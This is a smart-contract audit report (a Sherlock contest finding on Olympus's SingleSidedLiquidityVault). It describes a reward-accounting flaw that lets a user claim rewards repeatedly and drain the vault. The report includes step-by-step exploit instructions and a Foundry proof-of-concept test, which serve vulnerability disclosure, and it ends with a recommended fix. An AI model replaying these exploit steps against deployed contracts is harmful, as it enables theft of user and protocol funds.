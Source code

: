 ast3ros

high

# [H-01] User could drain all the external and internal rewards from the vault

## Summary

A user could exploit the vault and withdraw all the internal and external rewards in it by abusing the `cachedUserRewards` variable. This variable tracks the unclaimed rewards but never decreases, so a user can claim more than they deserve repeatedly.

## Vulnerability Details

When claiming the reward, user will call the `claimRewards` function.
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L288

The claimReward function then call the internal function `_claimInternalRewards`. The amount of reward is calculated by `internalRewardsForToken` function.
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L625

The amount of received rewards is calculated by: `(cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;`
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L371


The `cachedUserRewards[user_][rewardToken.token]` part causes the vulnerability. It does not decrease after claiming, so an exploiter can inflate it and claim the rewards multiple times, draining the vault.

In addition, the `userRewardDebts` is assign to 0 before using to calcualte the `cachedUserRewards`.
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L584

An exploiter could do these steps:
- Deposit Wsteth into the vault.
- Withdraw and set claim to true to withdraw the reward for the first time:     `function withdraw(lpAmount_, minTokenAmounts_, yes)`
    - The withdraw amount should be set so that `rewardDebtDiff > userRewardDebts[msg.sender][rewardToken.token]`. In this case, the `cachedUserRewards` will increase and `userRewardDebts` is set to 0: 

                userRewardDebts[msg.sender][rewardToken.token] = 0;
                cachedUserRewards[msg.sender][rewardToken.token] +=
                    rewardDebtDiff -
                    userRewardDebts[msg.sender][rewardToken.token];
    https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L583-L587

- The exploiter claims the reward again by calling `claimRewards` and withdraws it for the second time.
- They repeat this process by depositing, withdrawing to reset the `userRewardDebts` and inflating the `cachedUserRewards`. Then they claim the rewards again.

POC:

        function testCorrectness_withdrawAndClaimRewardBug() public {
            // Setup
            _withdrawTimeSetUp();

            // Verify initial state
            assertEq(ldo.balanceOf(alice), 0);

            // Get alice lp position
            uint256 aliceLpPosition = liquidityVault.lpPositions(alice);
            console2.log("LP Position start: ", aliceLpPosition);

            // Withdraw with claim
            vm.startPrank(alice);
            liquidityVault.withdraw(aliceLpPosition - 10000000000, minTokenAmounts_, true);
            uint256 internalRewardAfterWithdrawing = ldo.balanceOf(alice);
            uint256 externalRewardAfterWithdrawing = externalReward.balanceOf(alice);
            console2.log("LP Position after withdrawing: ", liquidityVault.lpPositions(alice));
            console2.log("Reward after withdrawing: ", ldo.balanceOf(alice));
            console2.log("userRewardDebts after withdrawing: ", liquidityVault.userRewardDebts(alice, address(ldo))); // userRewardDebts is set to 0
            console2.log("cachedUserRewards after withdrawing: ", liquidityVault.cachedUserRewards(alice, address(ldo))); // cachedUserRewards increased

            console2.log("ExternalReward after withdrawing: ", externalReward.balanceOf(alice));
            console2.log("userExternalRewardDebts after withdrawing: ", liquidityVault.userRewardDebts(alice, address(externalReward)));
            console2.log("cachedUserExternalRewards after withdrawing: ", liquidityVault.cachedUserRewards(alice, address(externalReward)));
            
            // And claim again
            liquidityVault.claimRewards(); // claim reward for 2nd time
            uint256 internalRewardAfterClaim = ldo.balanceOf(alice);
            uint256 externalRewardAfterClaim = externalReward.balanceOf(alice);
            console2.log("LP Position after 1st claim: ", liquidityVault.lpPositions(alice));
            console2.log("Reward after 1st claim: ", ldo.balanceOf(alice));
            console2.log("userRewardDebts after 1st claim: ", liquidityVault.userRewardDebts(alice, address(ldo)));
            console2.log("cachedUserRewards after 1st claim: ", liquidityVault.cachedUserRewards(alice, address(ldo)));
            console2.log("ExternalReward after 1st claim: ", externalReward.balanceOf(alice));
            console2.log("userExternalRewardDebts after 1st claim: ", liquidityVault.userRewardDebts(alice, address(externalReward)));
            console2.log("cachedUserExternalRewards after 1st claim: ", liquidityVault.cachedUserRewards(alice, address(externalReward)));

            assertTrue(internalRewardAfterWithdrawing < internalRewardAfterClaim); // Internal Reward increase
            assertTrue(externalRewardAfterWithdrawing < externalRewardAfterClaim); // External Reward increase
        }

## Impact

The vault loses all the internal and external reward tokens due to the exploit, causing financial losses for the protocol and the users.

## Code Snippet

https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L371
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L583-L587


## Tool used

Manual

## Recommendation

Reset the `cachedUserRewards` to zero after each successfully reward claim
        
        cachedUserRewards = 0;